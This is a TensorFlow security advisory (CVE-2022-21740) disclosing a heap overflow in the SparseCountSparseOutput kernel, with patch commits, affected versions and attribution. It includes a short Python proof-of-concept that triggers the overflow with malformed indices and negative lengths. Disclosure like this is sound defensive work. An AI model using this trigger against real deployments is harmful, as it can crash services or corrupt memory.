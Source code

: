 ## TFSA-2022-020: Heap overflow in `SparseCountSparseOutput`

### CVE Number
CVE-2022-21740

### Impact
The [implementation of `SparseCountSparseOutput`](https://github.com/galeone/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/count_ops.cc#L168-L273) is vulnerable to a heap overflow:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.SparseCountSparseOutput(
  indices=[[-1,-1]],
  values=[2],
  dense_shape=[1, 1],
  weights=[1],
  binary_output=True,
  minlength=-1,
  maxlength=-1,
  name=None)
```

### Patches
We have patched the issue in GitHub commits [2b7100d6cdff36aa21010a82269bc05a6d1cc74a](https://github.com/galeone/tensorflow/commit/2b7100d6cdff36aa21010a82269bc05a6d1cc74a) and [adbbabdb0d3abb3cdeac69e38a96de1d678b24b3](https://github.com/galeone/tensorflow/commit/adbbabdb0d3abb3cdeac69e38a96de1d678b24b3).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
